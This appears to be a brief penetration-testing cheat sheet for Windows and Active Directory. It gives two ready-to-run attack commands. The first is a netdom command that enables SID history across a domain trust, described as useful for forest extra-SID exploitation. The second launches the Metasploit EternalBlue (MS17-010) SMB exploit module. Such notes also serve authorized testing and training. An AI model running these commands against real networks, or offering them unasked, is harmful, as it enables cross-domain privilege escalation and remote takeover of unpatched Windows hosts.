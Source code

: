 % windows, active directory

## enable sid history 
Enable history on source domain for target domain (useful for forest extra SID exploitation)
```
netdom trust <source_domain> /d:<target_domain> /enablesidhistory:yes
```

% windows, cve
## windows eternal blue - smb - ms17-010
```
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue"
```

= interface: eth0
